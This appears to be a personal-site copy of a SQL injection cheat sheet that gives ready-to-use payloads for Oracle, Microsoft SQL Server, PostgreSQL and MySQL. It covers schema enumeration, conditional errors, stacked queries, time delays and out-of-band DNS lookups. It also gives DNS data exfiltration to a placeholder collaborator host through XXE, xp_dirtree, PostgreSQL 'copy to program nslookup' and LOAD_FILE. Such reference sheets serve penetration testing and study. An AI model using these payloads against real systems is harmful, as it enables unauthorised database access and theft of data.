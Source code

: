 ```yaml
---
title: "SQL Cheatsheet"
permalink: /SQL-Cheatsheet/
layout: single
author-profile: true
---
```


## Commands
### String concatenation
You can concatenate together multiple strings to make a single string.
Oracle: ``'foo'||'bar'``
Microsoft: ``'foo'+'bar'``
PostgreSQL: ``'foo'||'bar'``
MySQL: ``'foo' 'bar' [Note the space between the two strings]
         CONCAT('foo','bar')``

Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.
Oracle
SUBSTR('foobar', 4, 2)
Microsoft
SUBSTRING('foobar', 4, 2)
PostgreSQL
SUBSTRING('foobar', 4, 2)
MySQL
SUBSTRING('foobar', 4, 2)

Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.
Oracle
--comment
Microsoft
--comment
/*comment*/
PostgreSQL
--comment
/*comment*/
MySQL
#comment
-- comment [Note the space after the double dash]
/*comment*/

Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
Oracle
SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft
SELECT @@version
PostgreSQL
SELECT version()
MySQL
SELECT @@version

Database contents
You can list the tables that exist in the database, and the columns that those tables contain.
Oracle
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.
Oracle
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
MySQL
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')

Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
Oracle
Does not support batched queries.
Microsoft
QUERY-1-HERE; QUERY-2-HERE
PostgreSQL
QUERY-1-HERE; QUERY-2-HERE
MySQL
QUERY-1-HERE; QUERY-2-HERE

Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
Oracle
dbms_pipe.receive_message(('a'),10)
Microsoft
WAITFOR DELAY '0:0:10'
PostgreSQL
SELECT pg_sleep(10)
MySQL
SELECT sleep(10)

Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.
Oracle
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL
SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')

DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.
Oracle
The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

The following technique works on fully patched Oracle installations, but requires elevated privileges:
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL
The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'

DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.
Oracle
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
MySQL
The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'


